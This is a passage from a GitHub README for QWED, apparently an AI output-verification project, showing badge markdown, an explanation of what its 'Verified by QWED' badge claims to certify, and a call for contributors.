| [](https://docs.qwedai.com/docs/engines/overview#deterministic-first-philosophy) | **Math/Logic/Code/SQL/Schema** - No LLM fallback | See below |
| [](https://docs.qwedai.com/docs/engines/overview#deterministic-first-philosophy) | **Fact/Image/Consensus** - Hybrid approach | See below |

### Markdown Code

**General Badge:**
```markdown
[](https://github.com/QWED-AI/qwed-verification#%EF%B8%8F-what-does-verified-by-qwed-mean)
```

**100% Deterministic (for Math, Logic, Code, SQL, Schema engines):**
```markdown
[](https://docs.qwedai.com/docs/engines/overview#deterministic-first-philosophy)
```

**AI + Verification (for Fact, Image, Consensus engines):**
```markdown
[](https://docs.qwedai.com/docs/engines/overview#deterministic-first-philosophy)
```

These badges tell users exactly what level of verification your application uses.

## 🛡️ What does "Verified by QWED" mean?

When you see the **[Verified by QWED]** badge on a repository or application, it is a **technical guarantee**, not a marketing claim.

It certifies that the software adheres to the **QWED Protocol** for AI Safety:

1.  **The Zero-Hallucination Warranty:**
    The application does not rely on LLM probabilities for Math, Logic, or Code. It uses **Deterministic Engines** (SymPy, Z3, AST) to prove correctness before outputting data.

2.  **The "Untrusted Translator" Architecture:**
    The system treats the LLM solely as a translator (Natural Language → DSL), never as a judge. If the translation cannot be mathematically proven, the system refuses to answer rather than guessing.

3.  **Cryptographic Accountability:**
    The application generates **JWT-based Attestations** (ES256 signatures) for its critical operations. Every "Verified" output comes with a cryptographic receipt proving a solver validated it.

**In short: The badge means "We don't trust the AI. We trust the Math."**

---

## 🙏 Contributors Wanted

We're actively looking for contributors! Whether you're a first-timer or experienced developer, there's a place for you.

[](https://github.com/QWED-AI/qwed-verification/issues?q=is%3Aissue+is%3Aopen+label%3A%22good+first+issue%22)
[](https://github.com/QWED-AI/qwed-verification/issues?q=is%3Aissue+is%3Aopen+label%3A%22help+wanted%22)

### 🎯 Ways to Contribute

| Area | What We Need |
|------|-------------|
| 🧪 **Testing** | Add test cases for edge scenarios |
| 📝 **Docs** | Improve examples and tutorials |
| 🌍 **i18n** | Translate docs to other languages |
| 🔧 **SDKs** | Enhance Go/Rust/TypeScript SDKs |
| 🐛 **Bugs** | Fix issues or report new ones |

**[→ Read CONTRIBUTING.md](CONTRIBUTING.md)** | **[→ Browse Good First Issues](https://github.com/QWED-AI/qwed-verification/issues?q=is%3Aissue+is%3Aopen+label%3A%22good+first+issue%22)**

---

<div align="center">
  
  ### ⭐ Star us if you believe AI needs verification
  
  <a href="https://github.com/QWED-AI/qwed-verification">
    
  </a>
  
  <br><br>
  
  <h3>Ready to trust your AI?</h3>
  <p><i>"Safe AI is the only AI that scales."</i></p>
  <br>
  <a href="CONTRIBUTING.md">Contribute</a> · 
  <a href="docs/ARCHITECTURE.md">Architecture</a> · 
  <a href="SECURITY.md">Security</a> · 
  <a href="https://docs.qwedai.com">Documentation</a>
  

</div>
